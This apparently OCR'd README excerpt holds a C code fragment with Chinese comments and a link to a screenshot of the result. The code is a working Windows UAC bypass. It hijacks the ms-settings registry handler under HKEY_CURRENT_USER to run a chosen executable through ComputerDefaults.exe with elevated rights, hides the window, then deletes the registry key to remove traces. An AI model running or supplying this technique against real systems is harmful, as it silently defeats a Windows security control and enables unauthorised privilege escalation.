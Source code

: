 ```
    STARTUPINFOA si = { 0 };
    HKEY hKey;

    si.cb = sizeof(STARTUPINFO);
    si.wShowWindow = SW_HIDE;
    RegCreateKeyW(HKEY_CURRENT_USER, L"Software\\Classes\\ms-settings\\Shell\\open\\command", &hKey);       // 创建注册表项
    RegSetValueExW(hKey, L"", 0, REG_SZ, (LPBYTE)filePath, lstrlenW(filePath));                             // 赋值，执行的exe路径
    RegSetValueExW(hKey, L"DelegateExecute", 0, REG_SZ, (LPBYTE)"", sizeof(""));
    // 创建进程ComputerDefaults
    CreateProcessA("C:\\Windows\\System32\\cmd.exe", (LPSTR)"/c C:\\Windows\\System32\\ComputerDefaults.exe", NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, NULL, &si, &pi);

    // 延时十秒，等ComputerDefaults.exe运行
    Sleep(10000);
    // 清楚注册表项
    RegDeleteTreeA(HKEY_CURRENT_USER, "Software\\Classes\\ms-settings");

    return 0;
}
```

效果：

![](./imgs/14.jpg)
